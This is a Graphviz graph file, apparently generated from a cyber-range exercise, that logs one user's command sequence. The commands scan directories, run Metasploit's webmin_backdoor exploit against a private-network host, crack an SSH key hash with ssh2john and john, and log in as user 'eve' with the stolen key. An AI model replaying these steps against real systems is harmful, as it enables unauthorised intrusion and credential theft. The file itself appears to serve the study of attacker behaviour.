 // creating graph for user: 69
digraph {
	node [shape=box]
	0 [label="ls A10 "]
	2 [label="ls A10 "]
	4 [label="ls A10 "]
	7 [label="ls A10 "]
	9 [label="ls A10 "]
	10 [label="ssh 172.18.1.5 -p 10000 A16 "]
	11 [label="ssh 172.18.1.5 A16 "]
	18 [label="msfconsole M2 "]
	26 [label="msfconsole M2 "]
	30 [label="help search A3 "]
	31 [label="search 1.920 A3 "]
	32 [label="use exploit/unix/webapp/webmin_backdoor  M8 "]
	33 [label="show options M5 "]
	34 [label="set vhost A6 "]
	35 [label="set lhost 10.1.135.83 A6 "]
	36 [label="set lhost 172.18.1.5  A6 "]
	37 [label="set lport 10 000 A6 "]
	38 [label="set lport 10000 A6 "]
	39 [label="exploit M8 "]
	40 [label="set rhost 172.18.1.5 A6 "]
	42 [label="set lhost 10.1.135.83 A6 "]
	43 [label="exploit M8 "]
	44 [label="set rport 10000 A6 "]
	45 [label="set lhost A6 "]
	46 [label="exploit M8 "]
	47 [label="ls A10 "]
	48 [label="ls A10 "]
	51 [label="ls A10 "]
	52 [label="ls A10 "]
	54 [label="ls A10 "]
	55 [label="msfconsole M2 "]
	56 [label="show options M5 "]
	57 [label="set rhost 172.18.1.5 A6 "]
	58 [label="set rport  A6 "]
	60 [label="ls A10 "]
	61 [label="msfconsole M2 "]
	62 [label="set rport 10000 A6 "]
	63 [label="set shost A6 "]
	64 [label="set rhost A6 "]
	65 [label="set rhost 172.18.1.5 A6 "]
	66 [label="set lhost 10.1.135.83 A6 "]
	67 [label="show options M5 "]
	68 [label="use 1.920 A4 "]
	69 [label="set lhost A6 "]
	70 [label="set rhost A6 "]
	71 [label="set rhost 172.18.1.5 A6 "]
	72 [label="set rport 10000 A6 "]
	73 [label="ls A10 "]
	75 [label="ls A10 "]
	76 [label="ls A10 "]
	77 [label="cd ..ls A10 "]
	79 [label="ls A10 "]
	82 [label="ls A10 "]
	84 [label="ls A10 "]
	86 [label="ls A10 "]
	88 [label="ls A10 "]
	90 [label="ls A10 "]
	92 [label="ls A10 "]
	93 [label="ls A10 "]
	95 [label="ls A10 "]
	97 [label="ls A10 "]
	99 [label="ls A10 "]
	101 [label="ls A10 "]
	103 [label="ls A10 "]
	106 [label="ls A10 "]
	108 [label="locate A1 A9 A10 A11 A12 A17 "]
	109 [label="find A10 "]
	114 [label="ssh2john.py A14 A16 "]
	115 [label="find ssh2john.py A10 A14 A16 "]
	116 [label="ls A10 "]
	118 [label="ls A10 "]
	120 [label="ls A10 "]
	122 [label="ls A10 "]
	125 [label="ls A10 "]
	126 [label="ls A10 "]
	127 [label="lsa A10 "]
	128 [label="ls a A10 "]
	130 [label="ls a A10 "]
	133 [label="lsa A10 "]
	134 [label="ssh eve@10.1.17.4 M16 "]
	135 [label="ls A10 "]
	138 [label="ls A10 "]
	139 [label="john hash A14 "]
	140 [label="john bash A14 "]
	141 [label="/home/eve/.ssh# ssh -l id_rsa eve@172.17.5.4 M16 "]
	0 -> 2 [constraint=false]
	2 -> 4 [constraint=false]
	4 -> 7 [constraint=false]
	7 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 18 [constraint=false]
	18 -> 26 [constraint=false]
	26 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 79 [constraint=false]
	79 -> 82 [constraint=false]
	82 -> 84 [constraint=false]
	84 -> 86 [constraint=false]
	86 -> 88 [constraint=false]
	88 -> 90 [constraint=false]
	90 -> 92 [constraint=false]
	92 -> 93 [constraint=false]
	93 -> 95 [constraint=false]
	95 -> 97 [constraint=false]
	97 -> 99 [constraint=false]
	99 -> 101 [constraint=false]
	101 -> 103 [constraint=false]
	103 -> 106 [constraint=false]
	106 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 114 [constraint=false]
	114 -> 115 [constraint=false]
	115 -> 116 [constraint=false]
	116 -> 118 [constraint=false]
	118 -> 120 [constraint=false]
	120 -> 122 [constraint=false]
	122 -> 125 [constraint=false]
	125 -> 126 [constraint=false]
	126 -> 127 [constraint=false]
	127 -> 128 [constraint=false]
	128 -> 130 [constraint=false]
	130 -> 133 [constraint=false]
	133 -> 134 [constraint=false]
	134 -> 135 [constraint=false]
	135 -> 138 [constraint=false]
	138 -> 139 [constraint=false]
	139 -> 140 [constraint=false]
	140 -> 141 [constraint=false]
	rankdir=LR
}
